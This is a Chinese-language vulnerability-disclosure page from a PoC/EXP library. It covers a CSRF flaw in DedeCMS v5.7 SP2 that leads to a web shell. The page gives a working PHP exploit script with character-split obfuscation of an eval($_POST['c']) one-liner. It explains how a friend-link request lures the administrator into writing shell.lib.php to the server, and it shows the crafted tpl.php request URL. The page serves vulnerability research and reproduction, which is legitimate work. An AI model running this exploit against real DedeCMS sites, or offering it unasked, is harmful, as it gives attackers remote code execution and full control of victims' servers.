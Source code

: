 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.bylibrary.cn](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS_v5.7_%E5%8F%8B%E6%83%85%E9%93%BE%E6%8E%A5CSRF_GetShell/)

> 白阁文库是白泽 Sec 团队维护的一个漏洞 POC 和 EXP 披露以及漏洞复现的开源项目，欢迎各位白帽子访问白阁文库并提出宝贵建议。

[](https://github.com/BaizeSec/bylibrary/blob/main/docs/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS_v5.7_%E5%8F%8B%E6%83%85%E9%93%BE%E6%8E%A5CSRF_GetShell.md "编辑此页")

Affected Version[¶](#affected-version "Permanent link")
-------------------------------------------------------

DedeCMS-V5.7-UTF8-SP2 （ 发布日期 2017-03-15 ）

下载地址： 链接: [https://pan.baidu.com/s/1bprjPx1](https://pan.baidu.com/s/1bprjPx1) 密码: mwdq

PoC[¶](#poc "Permanent link")
-----------------------------

该版本在新建 & 修改标签功能（可以写 PHP 文件到本地）存在 CSRF 漏洞，通过申请友情链接的方式，诱使管理员点击，从而从 Referer 中拿到 后台路径，进而以管理员的身份写一句话到服务器上 GetShell 。

测试：

1.  申请友链

![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS_v5.7_%E5%8F%8B%E6%83%85%E9%93%BE%E6%8E%A5CSRF_GetShell/apply.png)

1.  编辑 友链 信息

![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS_v5.7_%E5%8F%8B%E6%83%85%E9%93%BE%E6%8E%A5CSRF_GetShell/edit.png)

dedecms_csrf.php 的内容如下：

```
<?php
$referer = $_SERVER['HTTP_REFERER'];
$dede_login = str_replace("friendlink_main.php","",$referer);//去掉friendlink_main.php，取得dede后台的路径
$muma = '<'.'?'.'@'.'e'.'v'.'a'.'l'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'c'.'\''.']'.')'.';'.'?'.'>';
$exp = 'tpl.php?action=savetagfile&actiondo=addnewtag&content='. $muma .'&filename=shell.lib.php';
$url = $dede_login.$exp;
header("location: ".$url);
exit();
```

1.  管理员登陆后台后 对 友链进行审核

![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS_v5.7_%E5%8F%8B%E6%83%85%E9%93%BE%E6%8E%A5CSRF_GetShell/link_list.png)

1.  审核的时候一般都会点击 地址 看一下网站的内容，由于友链中使用了 header 跳转，所以结果其实是访问了 `http://localhost/DedeCMS/DedeCMS-V5.7-GBK-SP2-20170315/uploads/dede/tpl.php?action=savetagfile&actiondo=addnewtag&content=%3C?@eval($_POST[%27c%27]);?%3E&filename=shell.lib.php` 请求。

![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS_v5.7_%E5%8F%8B%E6%83%85%E9%93%BE%E6%8E%A5CSRF_GetShell/click_res.png)

1.  查看写入到服务器的一句话 `shell.lib.php`

![](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCMS_v5.7_%E5%8F%8B%E6%83%85%E9%93%BE%E6%8E%A5CSRF_GetShell/shell.png)

References[¶](#references "Permanent link")
-------------------------------------------

1.  [http://0day5.com/archives/4209/](http://0day5.com/archives/4209/)

* * *

最后更新: 2021-03-24